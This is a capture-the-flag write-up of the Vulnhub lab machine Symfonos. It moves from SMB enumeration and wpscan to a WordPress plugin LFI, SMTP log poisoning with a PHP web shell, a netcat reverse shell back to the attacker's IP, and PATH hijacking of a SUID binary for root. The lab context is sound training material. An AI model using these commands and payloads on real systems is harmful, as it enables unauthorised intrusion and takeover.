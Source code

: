 ```yaml
---
layout: post
title: Vulnhub - Symfonos writeup
date: 2019-07-05 12::10
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-1,322/">Symfonos</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/sym/nmap.png)

Okay we see SMB port open so let's just run `enum4linux` and see what we can find more information about it.

![](images/sym/enum4linux.png)

We can see that we are allowed to list `/anonymous` share, this can be done using `smbclient`.

![](images/sym/smb-anon.png)

***

__Command explanation__
```bash
➜ smbclient //192.168.43.222/anonymous -U % -N
```

Here the `-U` is for `username` and `%` basically uses `single-space` as the username.

The `-N` argument is used for `No-password`

For more detail you can read: [stackexchange/accessing-a-smb-share-without-a-password](https://unix.stackexchange.com/questions/65106/accessing-a-smb-share-without-a-password)

***

Now we can use `get` command to get that file to our machine and then read it.

![](images/sym/get.png)

We can see that there are passwords in this file which is pretty good, we won't have to bruteforce anything :)

## Dirsearch

Now shifting my focus to the website that was running on port `80`. I decided to run `dirsearch`.

![](images/sym/dirsearch.png)

None of them were useful in anyway.

***

After spending more then an hours searching through SMTP and the `anonymous` smb share I finally found something, actually I thought of something and that got me something.

I tried reading the `heilos` SMB share with all the password I got from `attention.txt` and to my surprise it worked.

```bash
➜ smbclient //192.168.43.222/helios -U helios
```

The password was `qwerty`

![](images/sym/helios-smb.png)

**I should've tried this the moment I got some random passwords.** 🤦‍♂️

We can see that there's suppose to be `h3l105/` on the website.

***

Visiting that webpage I got a wordpress website so I decided to use `wpscan`.

```bash
$ wpscan --url http://192.168.43.222/h3l105/ --wp-content-dir wp-content --enumerate u
```

With this command I was only able to get a single user named `admin`

![](images/sym/user.png)

After scratching my head for quite sometime I decided to talk to one and only [__@DCAU7__](https://twitter.com/DCAU7), he provided me with the right command from which I was able to get some vulnerable plugins.

```bash
➜ wpscan --url http://symfonos.local/h3l105/ -e p --no-banner --no-update
```

![](images/sym/vuln.png)

***

__Problem with WPSCAN__

The actual problem was that when I first tried uing wpscan I was using the IP of the machine. But then I edited my `/etc/host` file by adding following line to it:

```
IP     symfonos.local
```

After that instead of using the IP I used `symfonos.local` in wpscan and it gave the vuln plugin. Anyway, back to work.

***

Since we don't have the credentials for WP login we'll use the [unauthenticated LFI](https://www.exploit-db.com/exploits/40290)

We try the link that is mentioned in the exploit i.e `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd` and it works.

![](images/sym/passwd.png)

After searching a lot on `how to get reverse shell via LFI` and trying to read other files from the system I was able to read the `helios` mail file in `/var/mail/`

![](images/sym/reset.png)

Using this link we can reset the password and login into the wordpress.

***

At first I thought this is it because now we can just get a reverse shell via themes but that thing didn't worked. I tried updating the `404.php` template of the `twentynine` theme but whenever I clicked on the `update file` button I got an error.

![](images/sym/error.png)

We can't edit any file there because the wordpress removed the support to edit templates from dashboard sometime ago and since this wordpress is latest verion i.e 5.2.2, it isn't working in this.

This seems like a dead end.

***

I went back to reading files and then I stubled upon this article called [`SMTP Log Poisioning through LFI to Remote Code Excecution`](https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/). I followed the article and was able to poision the logs and have RCE.

![](images/sym/send-mail.png)

After this if we read the `/var/mail/helios` we can see

![](images/sym/mail.png)

Here I tried lot of the reverse shell payload from [PayloadsAllTheThings/reverse-shell-cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them work.

After talking with the author they said I should URL encode the payload before using it. And that one worked.

```bash
➜ http http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php\?pl\=/var/mail/helios\&c\=nc%20-e%20%2Fbin%2Fsh%20192.168.43.70%204444

```

![](images/sym/reverse.png)

***

It's time to enumerate to find our key to `pwning root`. I used enumeration script to do that part:

![](images/sym/suid.png)

So there's a SUID file which isn't present there ususally. Let's see what it does:

![](images/sym/statuscheck.png)

It's printing some header information. Since it's a binary we can't see exactly what's  inside it but we can still run `strings` on the binary to see if we find can something.

![](images/sym/strings.png)

If we look carefully we can see
```
curl -I
http://l
ocalhost
```

this mean it's using `curl -I http://localhost` and we are getting only the headers because it's using `-I` argument.

We can easily exploit this because the problem with this is that it's using `curl` and not `/bin/curl` or something like that. So we can just make our own curl file and then run the SUID binary to get the root shell.

![](images/sym/exploit.png)

* `echo $'#!/bin/sh\n/bin/sh' > curl`: This will make a file named `curl` which will have `/bin/sh` in it.
* `chmod +x curl`: We change the permission for the file to make it executable.
* `export PATH=$(pwd):$PATH`: This will add the current path to the `PATH` variable.

__NOTE__: run the export command from the directory you've made the `curl` file in. In my case I did all of the above from `/tmp`.

After this we can just read the flag file which in this case was named `proof.txt`

![](images/sym/root.png)

***

## Another method for Reverse shell

There's one other method to get a reverse shell on the system. Instead of just sending

```php
<?php system($_GET['c']); ?>
```

We can send the complete php reverse shell([php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)) in the email data.

And when we'll try to read the email it will trigger the shell.

This is probably the faster way to get the reverse shell.

@DCAU7 told me about this neat trick.


***

This was really awesome machine, I got to learn a lot from this machine.

__Thanks to:__

* [@zayotic](https://twitter.com/zayotic) for creating an awesome machine,
* [@DCAU7](https://twitter.com/DCAU7) for helping me out.

